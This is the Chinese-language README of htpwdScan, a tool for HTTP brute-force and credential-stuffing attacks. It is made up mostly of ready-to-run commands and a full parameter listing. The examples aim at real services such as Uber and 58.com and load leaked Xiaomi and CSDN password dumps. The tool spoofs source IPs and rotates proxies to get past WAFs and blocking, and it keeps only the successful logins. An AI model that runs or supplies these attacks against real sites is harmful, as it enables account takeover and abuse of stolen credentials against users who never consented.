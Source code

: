 * 调试
  	>python htpwdScan.py -proxylist=proxylist.txt  -f=uber.txt -https -t=1 -d email=dict/pinyin2.txt password=dict/password.txt -err="电子信箱或密码无效" -debug
	
	>-proxylist=proxylist.txt,指定代理列表

	>-f=uber.txt 手动从 login页面抓取 request header 和 formdata	
	
	>email和password  指定用户名密码文件
	
	>-err="电子信箱或密码无效" ，response中存在此字符串视为登录失败
	
        >-t=1 单线程

* 无人值守扫描
	>python htpwdScan.py -proxylist=proxylist.txt  -f=uber.txt -https -t=30 -d email=dict/pinyin2.txt password=dict/password.txt -suc="" -o=uber_success.txt

        >-suc="" -o=uber_success.txt  只保留登录成功的信息

htpwdScan
====

**htpwdScan** 是一个简单的HTTP暴力破解、撞库攻击脚本. 它的特性：

- 支持批量校验并导入HTTP代理，低频撞库可以成功攻击大部分网站，绕过大部分防御策略和waf
- 支持直接导入互联网上泄露的**社工库**，发起撞库攻击
- 支持导入超大字典

### 简单示例 ###

* HTTP Basic认证

	>htpwdScan.py -u=http://auth.58.com/ -basic user.txt password.txt
	
	>导入用户名密码字典即可

* 表单破解
	>htpwdScan.py -f post2.txt -d user=user.txt passwd=password.txt -err="success\":false"
	
	>从 post2.txt 导入抓的http包，user和passwd是需要破解的参数，而 user.txt password.txt 是保存了密码的字典文件
	
	>**success":false** 是选择的失败标记，标记中若有双引号，请记得用右斜杠 \ 转义

* GET参数破解
	>htpwdScan.py -d passwd=password.txt -u="http://xxx.com/index.php?m=login&username=test&passwd=test" -get -err="success\":false"
	
	> 使用-get参数告诉脚本此处是GET请求
	
* 撞库攻击
	> htpwdScan.py -f=post.txt -database loginname,passwd=xiaomi.txt -regex="(\S+)\s+(\S+)" -err="用户名或密码错误" -fip

	>htpwdScan.py -f=post.txt -database passwd,loginname=csdn.net.sql -regex="\S+ # (\S+) # (\S+)" -err="用户名或密码错误" -fip
	
	>使用小米和csdn库发起撞库攻击。post.txt是抓包的HTTP请求

	>参数-regex设定从文件提取参数的正则表达式，此处需分组，分组的方式是使用括号()
	
	>小米的数据行格式是 `xxx@163.com	xxxxxxx` 也即 `(用户名)空白字符(密码)`
	
	>`(\S+)\s+(\S+)` 可指定第一个非空白字符拿去填充loginname，而第二个非空白字符串拿去填充passwd
	
	>csdn的数据行格式是`zdg # 12344321 # zdg@csdn.net` . 正则表达式写作`\S+ # (\S+) # (\S+)`
	
	>第一个#后面的非空白字符串填充passwd，第二个#后面的非空白字符串填充loginname
	
	>请注意，参数的顺序是重要的
	
	>-fip 是启用伪造随机IP
	
* 校验HTTP代理
	> htpwdScan.py -f=post.txt -proxylist=proxies.txt -checkproxy -suc="用户名或密码错误"
	
	> 要破解某个网站，批量测试使用代理是否连通目标网站，把HTTP请求保存到post.txt，然后用-suc参数设定连通标记
	
	>一个简单可行的校验方式是：
	
	> htpwdScan.py -u=http://www.baidu.com -get -proxylist=available.txt -checkproxy -suc="百度一下"

## 完整参数说明 ##
脚本支持的小功能较多，请耐心阅读以下完整说明。建议多使用 `-debug` 参数查看HTTP请求是否有问题，没问题再发起真正的破解。

	usage: htpwdScan.py [options]
	
	* An HTTP weak pass scanner. By LiJieJie *
	
	optional arguments:
	  -h, --help            显示帮助
	
	Target:
	  -u REQUESTURL         设定目标URL, 示例.
	                        -u="https://www.test.com/login.php"
	  -f REQUESTFILE        从文件导入HTTP请求
	  -https                当从文件导入HTTP请求时，启用https(SSL)
	  -get                  使用GET方法，默认: POST
	  -basic  [ ...]        HTTP Basic 暴力破解.
	                        示例. -basic users.dic pass.dic
	
	Dictionary:
	  -d Param=DictFile [Param=DictFile ...]
	                        为参数设定字典文件,
	                        支持哈希函数如 md5, md5_16, sha1.
	                        示例. -d user=users.dic pass=md5(pass.dic)
	
	Detect:
	  -no302                无视302跳转, 默认302敏感
	  -err ERR [ERR ...]    响应文本的破解失败标记,
	                        示例. -err "user not exist" "password wrong"
	  -suc SUC [SUC ...]    响应文本中的破解成功标记,
	                        e.g. -suc "welcome," "admin"
	  -herr HERR            响应HTTP头的破解失败标记
	  -hsuc HSUC            响应HTTP头的破解成功标记
	  -rtxt RetryText       响应文本中的重试标记，出现则重试请求,
	                        示例. -rtxt="IP blocked"
	  -rntxt RetryNoText    响应文本中的重试标记,未出现则重试请求，
	                        示例. -rntxt="<body>"
	  -rheader RetryHeader  响应头中的重试标记，出现则重试请求,
	                        示例. -rheader="Set-Cookie:"
	  -rnheader RetryNoHeader
	                        响应头中的重试标记，未出现则重试请求,
	                        示例. -rheader="HTTP/1.1 200 OK"
	
	Proxy and spoof:
	  -proxy Server:Port    设定少量HTTP代理
	                        示例. -proxy=127.0.0.1:8000,8.8.8.8:8000
	  -proxylist ProxyListFile
	                        从文件批量导入HTTP代理,
	                        示例. -proxylist=proxys.txt
	  -checkproxy           检查代理服务器的可用性.
	                        可用代理输出到 001.proxy.servers.txt
	  -fip                  生成随机X-Forwarded-For欺骗源IP
	  -fsid FSID            生成随机session ID. 示例. -fsid PHPSESSID
	  -sleep SECONDS        每次HTTP结束，等待SECONDS秒,
	                        避免IP被临时屏蔽，进入黑名单
	
	Database attack:
	  -database DATABASE    导入社工库中的数据.
	                        示例. -database user,pass=csdn.txt
	  -regex REGEX          从社工库中提取数据的正则表达式，必须分组.
	                        示例. -regex="(\S+)\s+(\S+)"
	
	General:
	  -t THREADS            工作线程数，默认50
	  -o OUTPUT             输出文件.  默认: 000.Cracked.Passwords.txt
	  -debug                进入debug模式检查HTTP请求和HTTP响应
	  -nov                  只显示破解成功的条目，不显示进度
	  -v                    show program's version number and exit


### 反馈 ###

使用中若发现问题，请反馈给我。  my[at]lijiejie.com [http://www.lijiejie.com](http://www.lijiejie.com)